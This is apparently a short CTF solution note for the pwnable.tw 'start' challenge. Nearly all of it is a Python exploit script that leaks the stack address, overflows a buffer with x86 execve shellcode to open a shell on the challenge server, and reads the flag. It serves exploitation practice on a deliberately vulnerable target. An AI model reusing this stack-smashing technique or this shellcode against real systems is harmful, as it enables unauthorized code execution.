 # Abstract
- pwnable.tw
- https://pwnable.tw/challenge/

## start
- reference
  - https://abda.nl/posts/2018/05/pwnable.tw-ctf-start/


```python
from socket import *
from struct import *

# connect and print banner
c = socket(AF_INET, SOCK_STREAM)
#c.connect(('127.0.0.1', 10100))
c.connect(('chall.pwnable.tw', 10000))
print c.recv(1000)

# leak esp
c.send('x' * 20 + pack('<I', 0x08048087))
esp = unpack('<I', c.recv(0x100)[:4])[0]
print 'esp = {0:08x}'.format(esp)

# set return address to stack shellcode.
payload = 'x' * 20
payload += pack('<I', esp + 20)
payload += '31c050682f2f7368682f62696e89e3505389e199b00bcd80'.decode('hex')

print 'payload length is {0}'.format(len(payload))
assert len(payload) < 60

c.send(payload)
c.send('cat /home/start/flag\n')
print c.recv(0x200)

```
